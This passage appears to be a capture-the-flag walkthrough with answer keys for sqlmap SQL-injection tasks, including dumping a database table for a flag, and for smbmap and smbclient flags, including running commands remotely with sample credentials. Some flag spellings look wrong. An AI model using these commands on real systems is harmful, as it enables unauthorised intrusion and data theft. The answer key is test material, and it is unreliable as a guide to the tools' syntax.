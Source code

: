 2. How many types of sqli is the site vulnerable too?<br>
Answer : 3 (*sqlmap -u 'http://ip' --forms --dbs*)
* You will get Error-based, Time-based, Boolean-based  

4. What is the name of the database?  <br>
Answer : tes** (*sqlmap -u 'http://ip' --forms --dbs*)

5. How many tables are in the database?<br>
Answer : 2 (*sqlmap -u "http://ip" --forms --tables*)
* You will get lol, msg tables

6. What is the value of the flag?<br>
Answer : found***
* First check for columns using (*sqlmap -u "http://ip" --forms -T lol --columns*) then dump the database using command (*sqlmap -u "http://ip" --forms -T lol --dump*). 

## Task-20 [Section 6 - Samba]: smbmap

1. How do you set the username to authenticate with?<br>
Answer : -u

2. What about the password?    <br>
Answer : -p

3. How do you set the host?<br>
Answer : -H

4. What flag runs a command on the server(assuming you have permissions that is)?<br>
Answer : -x

5. How do you specify the share to enumerate?<br>
Answer : -s

6. How do you set which domain to enumerate?<br>
Answer : -d

7. What flag downloads a file?<br>
Answer : -download

8. What about uploading one?<br>
Answer : --Upload

9. Given the username "admin", the password "password", and the ip "10.10.10.10", how would you run ipconfig on that machine<br>
Answer : smbmap -u "admin" -p "password" -H 10.10.10.10 -x "ipconfig" (*use "" instead of '' as given in question*)

## Task-21 [Section 6 - Samba]: smbclient

1. How do you specify which domain(workgroup) to use when connecting to the host?<br>
Answer : -W

2. How do you specify the ip address of the host? <br>
Answer : -I

3. How do you run the command "ipconfig" on the target machine?<br>
Answer : -c "ipconfig"
